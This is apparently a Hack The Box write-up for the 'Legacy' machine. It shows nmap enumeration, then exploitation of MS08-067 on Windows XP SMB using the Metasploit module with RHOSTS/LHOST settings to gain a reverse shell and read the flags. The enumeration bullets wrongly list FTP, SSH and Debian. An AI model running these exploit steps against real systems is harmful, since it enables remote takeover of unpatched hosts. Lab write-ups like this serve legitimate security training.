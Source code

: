 ![logo](/logo.png)

# [LEGACY- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was reeleased on 15 Mar 2017 as the second machine on HTB,Legacy created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *Ftp and ssh
  *Samba
  *Unix Debian
  
###### code-nmap

```sh
nmap -sV -sC -oA nmap/legacy 10.10.10.4
```

###### output

![nmaplegacy](/Windows/Windows-Easy/Legacy/Screenshots/nmaplegacy.png)

```code
❯ nmap -sV -sC -oA nmap/legacy 10.10.10.4                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 09:17 EAT
Nmap scan report for 10.10.10.4
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:da:f6 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-09T11:15:50+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m41s, deviation: 2h07m15s, median: 4d22h57m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.78 seconds

```

looking at the results we find that they are 3 ports open which is an SMB port its a `windows XP` machine.

port[135]-msrpc
port[139]-netbios-ssn
port[445]-microsoft-ds 


# Exploitation

Some [searching](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15) turns up with [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250). Before diving into the details of my exploit, let’s unpack his vulnerability is a significant security flaw in Microsoft Windows operating systems, particularly affecting the Server service that manages file and printer sharing. The core issue lies in how Windows handles network services, allowing an attacker to send specially crafted network packets to execute arbitrary code remotely. In simpler terms, this vulnerability could enable an attacker to take control of a system without the user’s knowledge, which also has a `Metasploit` module available for it. 

We the launch metasploit console 

###### code 

```sh
msfconsole
```

Then we select the `exploit/windows/smb/ms08_067_netapi` and select relevant parameters;

###### code

 ```sh
search ms08_067_netapi
```

If so, Windows XP SP3 English is the correct target.

###### output

![metasploitlegacy](/Windows/Windows-Easy/Legacy/Screenshots/metasploitlegacy.png)

###### code

```sh
use 8
options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4
run
```

###### output

![metasploitoption](/Windows/Windows-Easy/Legacy/Screenshots/metasploitoption.png)

Running the module immediately grants a root shell. 

![metasploitoption](/Windows/Windows-Easy/Legacy/Screenshots/meterpreterlegacy.png)

###### code

```sh
shell
```

![](/Windows/Windows-Easy/Legacy/Screenshots/shelllegacy.png)

The user flag can be obtained from `C:\Documents and Settings\john\Desktop\user.txt` and the
root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`
###### output

![](/Windows/Windows-Easy/Legacy/Screenshots/legacyrootuserflag.png)


# The Mitigation: MS08–067

The adventure wouldn’t be complete without discussing the mitigation of this vulnerability. Microsoft released a security update, MS08–067, to patch this critical flaw. This update was crucial for Windows 2000, XP, Vista, and Windows Server 2003 and 2008 users, addressing the vulnerable component in the Server service to prevent such remote exploits.

![](/Windows/Windows-Easy/Legacy/Screenshots/learnlegacy.png)

	-------------------------END successful attack @lesley----------------------


